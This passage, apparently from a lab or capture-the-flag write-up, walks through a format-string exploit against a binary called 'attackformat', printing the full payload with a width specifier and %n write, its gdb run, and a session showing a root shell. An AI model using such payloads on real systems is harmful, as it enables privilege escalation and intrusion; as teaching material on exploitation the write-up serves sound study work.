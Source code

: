 <p>Hmm, much better, but the number of bytes we wrote so far is too small and how can we get to 0x08048690. It turns out that there is a convenient operation called “width of format string” that can help us with this. You simply put a number before the last <code>%x</code> before your <code>%n</code> and that number will be added to the number of bytes written so far. LOL that is so freaking convenient.  <br>
Tune up your payload to something like this: <br>
<code>$(python -c 'print "AAA\x34\xda\xff\xff"+"%x"*9+"%134514234x"+"%n"')</code> <br>
and run it in gdb. </p>



<pre class="prettyprint"><code class=" hljs vhdl">(gdb) run $(python -c <span class="hljs-attribute">'print</span> <span class="hljs-string">"AAA\x34\xda\xff\xff"</span>+<span class="hljs-string">"%x"</span>*<span class="hljs-number">9</span>+<span class="hljs-string">"%134514234x"</span>+<span class="hljs-string">"%n"</span>')
(gdb) cont
(gdb) cont</code></pre>

<p>after it put a huge width … We entered the shell. Let’s try it in real program.</p>



<pre class="prettyprint"><code class=" hljs ruby">rwang74<span class="hljs-variable">@bb7bd829ff8f</span><span class="hljs-symbol">:/c0re</span><span class="hljs-variable">$ </span>/c0re/attackformat <span class="hljs-variable">$(</span>python -c <span class="hljs-string">'print "AAA\x34\xda\xff\xff"+"%x"*9+"%134514234x"+"%n"'</span>)

                                           <span class="hljs-number">41414120</span>
root<span class="hljs-variable">@bb7bd829ff8f</span><span class="hljs-symbol">:/c0re</span><span class="hljs-comment"># whoami</span>
root</code></pre>

<p>God damn that is so easy. </p>